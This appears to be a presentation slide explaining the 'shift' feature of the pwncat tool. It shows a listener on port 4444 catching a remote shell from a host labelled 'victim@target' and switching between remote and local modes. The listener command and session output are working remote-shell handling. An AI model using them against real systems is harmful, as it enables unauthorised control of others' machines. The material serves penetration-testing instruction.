

# shift
Switch between the target and pwncat commands
$ pwncat --listen -p 4444
[11:13:05] received connection from 10.0.1.1:47388
[11:13:05] new host w/ hash fc9e879381fff6b29f485c8c237a2fd4
[11:13:07] pwncat running in /bin/bash
           pwncat is ready 🐈

(remote) victim@target:~$
Press Ctrl+D to toggle between remote-mode and local-mode
(remote) victim@target:~$ ^D
[11:13:12] local terminal restored
(local) pwncat$